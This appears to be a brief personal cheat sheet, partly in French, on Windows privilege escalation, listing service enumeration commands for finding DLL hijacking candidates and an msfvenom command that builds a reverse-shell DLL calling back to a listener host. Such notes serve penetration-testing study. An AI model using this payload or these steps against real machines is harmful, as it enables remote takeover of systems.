 ## This is my Cheatseet for Privilege Escalation

- For Services
`sc query state= all` or `sc qc "servicename"`.
- Pour voir les services potentielles sur les DLL Hijacking 
 `wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"` oubien on enlve le `findstr` qui indexe le `auto`



 ## Recon








 ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f dll -o hijackme.dll``